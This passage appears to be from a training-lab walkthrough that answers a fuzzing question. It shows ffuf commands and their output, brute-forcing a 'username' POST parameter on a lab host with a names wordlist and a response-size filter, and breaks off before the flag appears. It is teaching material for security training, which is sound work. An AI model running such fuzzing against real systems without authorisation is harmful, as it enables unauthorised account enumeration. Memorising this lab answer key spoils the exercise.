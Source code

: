 ### "Try fuzzing the parameters you identified for working values. One of them should return a flag. What is the content of the flag?"

From the previous question, students will know that the two `POST` parameters are `user` and `username`. Therefore, students need to fuzz the valid value for the parameter `username`. First, students need to determine the response size of a request with an erroneous value for the `username` `POST` parameter, finding it to be 781:

Code: shell

```shell
ffuf -w /opt/useful/SecLists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:STMPO/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -t 100
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-y2llhq5gie]─[~]
└──╼ [★]$ ffuf -w /opt/useful/SecLists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:31312/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://faculty.academy.htb:31312/courses/linux-security.php7
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

abbie                   [Status: 200, Size: 781, Words: 223, Lines: 53, Duration: 2ms]
aaliyah                 [Status: 200, Size: 781, Words: 223, Lines: 53, Duration: 2ms]
abahri                  [Status: 200, Size: 781, Words: 223, Lines: 53, Duration: 1ms]
abbi                    [Status: 200, Size: 781, Words: 223, Lines: 53, Duration: 3ms]
```

Thus, students need to filter it out using the `-fs` flag:

```shell
ffuf -w /opt/useful/SecLists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:STMPO/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781 -t 100
```
```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-y2llhq5gie]─[~]
└──╼ [★]$ ffuf -w /opt/useful/SecLists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:31312/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781 -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
```